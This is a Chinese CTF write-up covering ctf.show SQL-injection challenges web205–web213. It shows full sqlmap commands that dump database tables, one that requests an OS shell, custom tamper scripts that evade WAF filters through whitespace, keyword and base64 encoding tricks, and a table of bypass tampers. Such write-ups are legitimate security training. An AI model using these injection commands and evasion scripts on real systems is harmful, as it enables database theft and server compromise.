python3 sqlmap.py -u "http://664e502c-af1a-4845-aae9-0cee9c9ba258.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://664e502c-af1a-4845-aae9-0cee9c9ba258.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=9kfu8beesnj6mk7j0554lh8fgp" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_flax --dump --batch
```

### web206

需要闭合，但是我写了一个没有闭合的payload也能打出来，只不过是Sqlmap给我时间盲注出来的

```shell
python3 sqlmap.py -u "http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables
```



但是如果把闭合写了

```shell
python3 sqlmap.py -u "http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --prefix="')" --suffix="#" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables
```

他就不会盲注而是直接打出来，不过前提是要知道payload的样子



```shell
python3 sqlmap.py -u "http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --prefix="')" --suffix="#" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_flaxc --columns --where="id=1" --dump --threads=5 --no-cast --time-sec=1 --charset="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}.ctfshow"
```

优化一下参数，即使这样子可能注入出来的东西不完整，但是够快



但是这样的命令跑不出来，线程加太大了，所以我又重新写了一下命令，用二分法和限制字符集，直接乱杀好吧

```shell
python3 sqlmap.py -u "http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://f60f42ca-9e5f-4cbc-9f79-ce46c88cd952.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables

python3 sqlmap.py -u "http://35cc5129-ecff-4e45-a19d-f3058ea3909f.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://35cc5129-ecff-4e45-a19d-f3058ea3909f.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_flaxc --dump --threads=5 --charset="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}." --time-sec=1 --binary-fields=flagv --no-cast
```

### web207

过滤了空格直接利用`space2comment`绕过

```shell
python3 sqlmap.py -u "http://7745522d-a1de-46a6-9352-f68081c99d84.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://7745522d-a1de-46a6-9352-f68081c99d84.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="space2comment" -D ctfshow_web --tables

python3 sqlmap.py -u "http://7745522d-a1de-46a6-9352-f68081c99d84.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://7745522d-a1de-46a6-9352-f68081c99d84.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="space2comment" -D ctfshow_web -T ctfshow_flaxca --dump
```

### web208

虽然还是写着只过滤了空格，但是这里还是必须要用随便大小写关键字才能绕过`randomcase`

```shell
python3 sqlmap.py -u "http://04b302d1-1b4e-439c-8afd-8ce6d287c653.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://04b302d1-1b4e-439c-8afd-8ce6d287c653.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="space2comment,randomcase" -D ctfshow_web --tables

python3 sqlmap.py -u "http://04b302d1-1b4e-439c-8afd-8ce6d287c653.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://04b302d1-1b4e-439c-8afd-8ce6d287c653.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="space2comment,randomcase" -D ctfshow_web -T ctfshow_flaxcac --dump
```

也可以用`space2formfeed.py`(自己写)

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0c)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0c)
                continue

            retVal += payload[i]

    return retVal
```

```shell
python3 sqlmap.py -u "http://bd248ba1-6a52-494f-8d43-0c0f0da01489.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://bd248ba1-6a52-494f-8d43-0c0f0da01489.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=k07qc4alt8bo9oht2glqb90p52" --user-agent=sqlmap --referer=ctf.show --tamper="space2formfeed,randomcase" -D ctfshow_web --tables

python3 sqlmap.py -u "http://bd248ba1-6a52-494f-8d43-0c0f0da01489.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://bd248ba1-6a52-494f-8d43-0c0f0da01489.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=k07qc4alt8bo9oht2glqb90p52" --user-agent=sqlmap --referer=ctf.show --tamper="space2formfeed,randomcase" -D ctfshow_web -T ctfshow_flaxcac --dump
```

顺表再写个双写绕过的tamper吧`doublewords.py`

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
import re
from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL


def dependencies():
    pass


def tamper(payload, **kwargs):
    retVal = payload

    keywords_to_double = {
        "SELECT"
    }

    if payload:
        for match in re.finditer(r"\b[A-Za-z_]{2,}\b", retVal):
            word = match.group()

            if word.upper() in keywords_to_double and re.search(r"(?i)[`\"'\[]%s[`\"'\]]" % word, retVal) is None:
                mid_pos = len(word) // 2
                embedded_word = word[:mid_pos].lower() + word.lower() + word[mid_pos:].lower()
                retVal = retVal.replace(word, embedded_word)

    return retVal
```

环境中过滤了什么，就把这个关键字加到字典里面，就可以了

```shell
python3 sqlmap.py -u "http://991ba5f3-26b5-49f4-824c-dab037a17321.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://991ba5f3-26b5-49f4-824c-dab037a17321.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=k07qc4alt8bo9oht2glqb90p52" --user-agent=sqlmap --referer=ctf.show --tamper="space2formfeed,doublewords" -D ctfshow_web --tables

python3 sqlmap.py -u "http://991ba5f3-26b5-49f4-824c-dab037a17321.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://991ba5f3-26b5-49f4-824c-dab037a17321.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=k07qc4alt8bo9oht2glqb90p52" --user-agent=sqlmap --referer=ctf.show --tamper="space2formfeed,doublewords" -D ctfshow_web -T ctfshow_flaxcac --dump --batch
```

### web209

```php
function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```

过滤了`*`那`space2comment`就用不了了，其实我们需要绕过的就是空格，这里利用`%09`绕过，

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x09)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x09)
                continue

            retVal += payload[i]

    return retVal
```

命名为`space2tab.py`，再写个把`*`替换为换行的tamper，命名为`asterisk2newline.py`，说实话想不到更好的处理方式了，有更好的处理方式的师傅，欢迎评论区讨论，

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def dependencies():
    pass


def tamper(payload, **kwargs):
    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote = False, False

        for i in xrange(len(payload)):
            if payload[i] == '\'':
                quote = not quote
            elif payload[i] == '"':
                doublequote = not doublequote
            elif payload[i] == '*' and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

细节点就是需要使用`chr(0xxx)`的样式来替换字符，不能直接随便写

```shell
python3 sqlmap.py -u "http://05c26fc5-ce78-49b1-af86-aa57f63f7352.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://05c26fc5-ce78-49b1-af86-aa57f63f7352.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=igqfvdb6q8776gjl2kj45d5dre" --user-agent=sqlmap --referer=ctf.show --tamper="space2tab,asterisk2newline,equaltolike,randomcase" -D ctfshow_web --tables

python3 sqlmap.py -u "http://05c26fc5-ce78-49b1-af86-aa57f63f7352.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://05c26fc5-ce78-49b1-af86-aa57f63f7352.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=igqfvdb6q8776gjl2kj45d5dre" --user-agent=sqlmap --referer=ctf.show --tamper="space2tab,asterisk2newline,equaltolike,randomcase" -D ctfshow_web -T ctfshow_flav --dump
```

也可以直接用换行把这`*`和空格都过滤的tamper

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == '=':
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue
            
            elif payload[i] == '*':
                retVal += chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal

```

```shell
python3 sqlmap.py -u "http://e7644ec1-f00f-4252-8e0e-6ded4c1345c6.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://e7644ec1-f00f-4252-8e0e-6ded4c1345c6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb209" -D ctfshow_web --tables

python3 sqlmap.py -u "http://e7644ec1-f00f-4252-8e0e-6ded4c1345c6.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://e7644ec1-f00f-4252-8e0e-6ded4c1345c6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=khfj7v9mah0p28b43l00da7674" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb209" -D ctfshow_web -T ctfshow_flav --dump
```

### web210

```php
function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```

反着写个tamper就好了

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST


def dependencies():
    pass


def tamper(payload, **kwargs):

    if payload:
        reversed_encoded=payload[::-1]
        encoded=base64.b64encode(reversed_encoded.encode('utf-8')).decode('utf-8')
        double_reversed_encoded=encoded[::-1]
        final_encoded=base64.b64encode(double_reversed_encoded.encode('utf-8')).decode('utf-8')
        return final_encoded

    return payload

```

```shell
python3 sqlmap.py -u "http://c4f3da76-d10a-469e-bc92-07e003617a34.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://c4f3da76-d10a-469e-bc92-07e003617a34.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=sm67m32oeefg55tcpiq1smouod" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb210" -D ctfshow_web --tables

python3 sqlmap.py -u "http://c4f3da76-d10a-469e-bc92-07e003617a34.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://c4f3da76-d10a-469e-bc92-07e003617a34.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=sm67m32oeefg55tcpiq1smouod" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb210" -D ctfshow_web -T ctfshow_flavi --dump
```

### web211

加个绕过空格就可以

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST


def dependencies():
    pass


def tamper(payload, **kwargs):

    if payload:
        payload = payload.replace(" ", "/**/")
        reversed_encoded=payload[::-1]
        encoded=base64.b64encode(reversed_encoded.encode('utf-8')).decode('utf-8')
        double_reversed_encoded=encoded[::-1]
        final_encoded=base64.b64encode(double_reversed_encoded.encode('utf-8')).decode('utf-8')
        return final_encoded

    return payload

```

```shell
python3 sqlmap.py -u "http://0bd6a136-199c-451a-aa5f-622d5e99a51d.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://0bd6a136-199c-451a-aa5f-622d5e99a51d.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=eusf2q9tfu758qcjpl98l3rck4" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb211" -D ctfshow_web --tables

python3 sqlmap.py -u "http://0bd6a136-199c-451a-aa5f-622d5e99a51d.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://0bd6a136-199c-451a-aa5f-622d5e99a51d.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=eusf2q9tfu758qcjpl98l3rck4" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb211" -D ctfshow_web -T ctfshow_flavia --dump
```

### web212

```php
function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST


def dependencies():
    pass


def tamper(payload, **kwargs):

    if payload:
        payload = payload.replace(" ", chr(0x09))
        reversed_encoded=payload[::-1]
        encoded=base64.b64encode(reversed_encoded.encode('utf-8')).decode('utf-8')
        double_reversed_encoded=encoded[::-1]
        final_encoded=base64.b64encode(double_reversed_encoded.encode('utf-8')).decode('utf-8')
        return final_encoded

    return payload

```

```shell
python3 sqlmap.py -u "http://2a62292f-5ea8-4590-ab1d-3edbbd9b6d20.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://2a62292f-5ea8-4590-ab1d-3edbbd9b6d20.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=eusf2q9tfu758qcjpl98l3rck4" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb212" -D ctfshow_web --tables

python3 sqlmap.py -u "http://2a62292f-5ea8-4590-ab1d-3edbbd9b6d20.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --safe-url="http://2a62292f-5ea8-4590-ab1d-3edbbd9b6d20.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=eusf2q9tfu758qcjpl98l3rck4" --user-agent=sqlmap --referer=ctf.show --tamper="ctfshowweb212" -D ctfshow_web -T ctfshow_flavis --dump
```

### web213

waf一样

````shell
python3 sqlmap.py -u "http://dbae3790-fac5-4d70-948e-72d3aae610c6.challenge.ctf.show/api/index.php" --user-agent=sqlmap --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --cookie="PHPSESSID=tpp6v8rj8dr0jpglrfqu0db8a9" --safe-url="http://dbae3790-fac5-4d70-948e-72d3aae610c6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper="ctfshowweb212" -D ctfshow_web --tables --batch
````

没有flag表名，尝试连接shell

```shell
python3 sqlmap.py -u "http://dbae3790-fac5-4d70-948e-72d3aae610c6.challenge.ctf.show/api/index.php" --user-agent=sqlmap --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --cookie="PHPSESSID=tpp6v8rj8dr0jpglrfqu0db8a9" --safe-url="http://dbae3790-fac5-4d70-948e-72d3aae610c6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper="ctfshowweb212" -D ctfshow_web --tables --batch --os-shell
```



## Tamper

### 空白字符处理

| 脚本名称               | 功能描述                                                   |
| ---------------------- | ---------------------------------------------------------- |
| `space2comment.py`     | 使用 `/**/` 代替空格                                       |
| `space2dash.py`        | 绕过过滤 `=`，用 `--` 注释替换空格，后跟随机字符串和换行符 |
| `space2hash.py`        | 将空格替换为 `#` 号，后跟随机字符串和换行符                |
| `space2morehash.py`    | 将空格替换为 `#` 号以及更多随机字符串和换行符              |
| `space2mssqlblank.py`  | 使用 MSSQL 特有的空白符替换空格                            |
| `space2mysqlblank.py`  | 使用 MySQL 特有的空白符替换空格                            |
| `space2mysqldash.py`   | 将空格替换为 `--` 破折号注释和换行符                       |
| `space2plus.py`        | 用 `+` 替换空格                                            |
| `space2randomblank.py` | 将空格替换为随机有效的空白字符                             |
| `multiplespaces.py`    | 在 SQL 关键字周围添加多个空格                              |
| `bluecoat.py`          | 用随机有效空白字符替换空格，并将 `=` 替换为 `like`         |
| `space2comment.py`     | 将空格替换为注释 `/**/`                                    |

### 字符编码与替换

| 脚本名称                  | 功能描述                         |
| ------------------------- | -------------------------------- |
| `apostrophemask.py`       | 使用 UTF-8 编码替换引号          |
| `apostrophenullencode.py` | 绕过双引号过滤，替换字符和双引号 |
| `charencode.py`           | URL 编码                         |
| `charunicodeencode.py`    | 字符串 Unicode 编码              |
| `chardoubleencode.py`     | 双重 URL 编码（不处理已编码的）  |
| `randomcase.py`           | SQL 关键字随机大小写             |
| `unmagicquotes.py`        | 使用宽字符绕过 GPC addslashes    |
| `base64encode.py`         | 使用 Base64 编码替换             |

### 操作符替换

| 脚本名称             | 功能描述                                                     |
| -------------------- | ------------------------------------------------------------ |
| `equaltolike.py`     | 用 `like` 替换等号                                           |
| `greatest.py`        | 绕过过滤 `>`，用 `GREATEST` 替换大于号                       |
| `between.py`         | 用 `between` 替换大于号 `>`                                  |
| `ifnull2ifisnull.py` | 绕过 `IFNULL` 过滤，将 `IFNULL(A,B)` 替换为 `IF(ISNULL(A), B, A)` |

### 注释与关键字处理

| 脚本名称                       | 功能描述                                              |
| ------------------------------ | ----------------------------------------------------- |
| `halfversionedmorekeywords.py` | MySQL 环境下绕过防火墙，在关键字前添加 MySQL 版本注释 |
| `randomcomments.py`            | 用 `/**/` 分割 SQL 关键字                             |
| `modsecurityversioned.py`      | 通过完整查询版本注释绕过过滤                          |
| `versionedmorekeywords.py`     | 使用注释绕过                                          |
| `nonrecursivereplacement.py`   | 使用双重查询语句替代 SQL 关键字                       |

### 联合查询处理

| 脚本名称             | 功能描述                                    |
| -------------------- | ------------------------------------------- |
| `unionalltounion.py` | 将 `UNION ALL SELECT` 替换为 `UNION SELECT` |

### 特殊技巧

| 脚本名称            | 功能描述                                                     |
| ------------------- | ------------------------------------------------------------ |
| `appendnullbyte.py` | 在有效负载结束位置添加零字节字符编码                         |
| `sp_password.py`    | 在负载末尾追加 `sp_password`，使其在 DBMS 日志中自动模糊处理 |
| `securesphere.py`   | 追加特制字符串                                               |

### 使用方法

在 SQLmap 命令中使用 `--tamper` 参数来指定一个或多个 Tamper 脚本：

```bash
python sqlmap.py -u "http://example.com" --tamper="space2comment,between"
```

可以通过逗号分隔使用多个 Tamper 脚本，按照从左到右的顺序依次应用。

## 小结

很抽象就是我虚拟机比本地跑的快很多，不知道为什么，简单的201，本机跑了五六分钟，但是虚拟机就两分钟的样子，算是深入浅出了一下**sqlmap**，知道了一些常用的打法，**baozongwi**现在也会写点简单的tamper了
